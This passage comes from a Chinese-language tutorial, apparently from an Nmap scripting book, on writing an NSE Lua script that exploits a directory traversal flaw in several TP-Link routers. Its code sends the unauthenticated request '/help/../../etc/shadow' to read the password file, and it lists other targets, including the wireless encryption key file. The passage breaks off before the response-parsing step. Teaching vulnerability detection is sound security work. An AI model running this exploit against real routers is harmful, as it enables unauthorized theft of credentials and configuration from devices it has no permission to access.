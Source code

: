 我们将编写一个 NSE 脚本，利用几个 NSE 库和 Lua 的字符串库来利用几个 TP-Link 路由器中的路径遍历漏洞。

1.  创建文件`http-tplink-dir-traversal.nse`并完成 NSE 信息标签：

```
description = [[
Exploits a directory traversal vulnerability existing in several TP-Link wireless routers. Attackers may exploit this vulnerability to read any of the configuration and password files remotely and without authentication.

This vulnerability was confirmed in models WR740N, WR740ND and WR2543ND but there are several models that use the same HTTP server so I believe they could be vulnerable as well. I appreciateany help confirming the vulnerability in other models.

Advisory:
* http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740

Other interesting files:
* /tmp/topology.cnf (Wireless configuration)
* /tmp/ath0.ap_bss (Wireless encryption key)
]]
```

1.  加载所需的库（Nmap 6.x 格式）：

```
local http = require "http"
local io = require "io"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local vulns = require "vulns"
```

1.  使用`shortport`库的帮助定义执行规则：

```
portrule = shortport.http
```

1.  编写一个函数来发送路径遍历请求并确定 Web 应用程序是否易受攻击：

```
local function check_vuln(host, port)
  local evil_uri = "/help/../../etc/shadow"
  stdnse.print_debug(1, "%s:HTTP GET %s", SCRIPT_NAME, evil_uri)
  local response = http.get(host, port, evil_uri)
  if response.body and response.status==200 and response.body:match("root:") then
    stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
    return true
  end
  return false
end
```

1.  读取并解析响应中的文件，借助 Lua 捕获(`.*`)的一些帮助：
